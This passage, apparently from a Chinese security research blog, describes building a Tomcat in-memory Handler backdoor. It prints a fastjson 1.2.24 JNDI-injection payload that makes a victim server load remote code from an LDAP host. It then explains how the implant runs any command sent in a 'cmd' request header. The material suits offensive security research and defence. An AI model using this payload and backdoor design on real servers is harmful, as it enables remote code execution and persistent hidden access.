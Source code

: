 将该马加入 jndi 测试工具，

测试环境为 fastjson1.2.24，jdk8

打入以下 payload

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/0/MyHandler/123","autoCommit":true}
```

jndi 测试工具会返回指向 MyAdapter 内存马的 reference

之后受害服务器远程通过 reference 远程加载构造的 Handler 马

执行器静态代码块中的逻辑，将内存中的 NioEndpoint 的 handle 替换为我们的 handle 马

之后发送任意路径下的请求，都会到我们 handle 马的 process 方法，如果请求头中带有 cmd，则会执行命令并将结果返回

否则就 handler.process (wrapper, status); 将其交给容器处理。

[![](assets/1711676401-3edd4d9e0e443b05334585fc1df0660e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240327152500-1ec4fd32-ec0b-1.png)

至此，一个没有被大家提出过的内存马就构造出来了，相比于之前构造的 adapter 内存马，由于请求数据并没有解析，所以只能从流中获取。

响应也不能直接 response 设置回显，得将 wrapper 添加进去，得调用 finishResponse 方法。

## 0x 04 写后感
